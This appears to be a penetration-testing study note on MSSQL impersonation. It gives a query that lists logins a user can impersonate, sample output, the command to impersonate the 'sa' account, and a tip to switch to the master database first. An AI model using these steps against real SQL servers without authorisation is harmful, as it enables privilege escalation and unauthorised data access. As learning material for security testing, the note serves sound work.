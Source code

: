 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
---
```



Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:

Using [[SqlCmd]]:

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin
```

#### Impersonating the SA User


```cmd-session
EXECUTE AS LOGIN = 'sa'
```

> [!NOTE]
> It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.